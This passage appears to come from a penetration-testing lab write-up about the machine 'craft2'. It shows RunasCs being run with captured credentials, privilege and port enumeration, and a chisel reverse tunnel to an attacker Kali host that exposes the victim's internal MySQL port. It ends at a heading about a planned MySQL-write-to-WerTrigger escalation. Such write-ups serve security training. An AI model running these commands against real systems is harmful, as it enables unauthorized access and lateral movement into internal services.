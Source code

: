 {% embed url="https://github.com/antonioCoco/RunasCs" %}

```
C:\xampp\htdocs>.\RunasCs.exe thecybergeek winniethepooh "whoami"     
.\RunasCs.exe thecybergeek winniethepooh "whoami"
craft2\thecybergeek

C:\xampp\htdocs>.\RunasCs.exe thecybergeek winniethepooh "whoami /priv"
.\RunasCs.exe thecybergeek winniethepooh "whoami /priv"

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

The user had nothing interesting though.

### MySQL Arbitrary Write -> WerTrigger

I checked the ports open on the machine, and found quite a few such as HTTPS and MySQL not publicly facing:

```
C:\xampp\htdocs>netstat -ano
netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       2376
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       880
  TCP    0.0.0.0:443            0.0.0.0:0              LISTENING       2376
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:3306           0.0.0.0:0              LISTENING       2004
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       516
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       388
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1132
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       640
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       652
```

Interesting. We can forward this using `chisel.exe`.&#x20;

```bash
## on kali
chisel server -p 6000 --reverse

## on victim
chisel.exe client 192.168.45.197:6000 R:3306:127.0.0.1:3306
```
